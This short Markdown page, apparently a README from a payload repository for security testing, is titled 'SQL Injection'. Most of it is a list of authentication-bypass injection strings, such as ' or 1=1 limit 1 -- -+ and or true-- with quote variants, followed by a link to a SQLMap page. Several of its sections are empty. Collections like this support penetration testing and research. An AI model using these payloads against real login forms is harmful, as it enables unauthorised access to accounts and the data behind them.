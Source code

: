 # SQL Injection

A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application

## _Authentication Bypass_

```
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--

```

## _SQL Injection using SQLMap_
(SQL link)[https://github.com/josdoaitran/PayloadForSecurityTesting/blob/master/SQLMap.md]

## _DBMS Identification_

## _Entry point detection_


# Thanks to and Reference
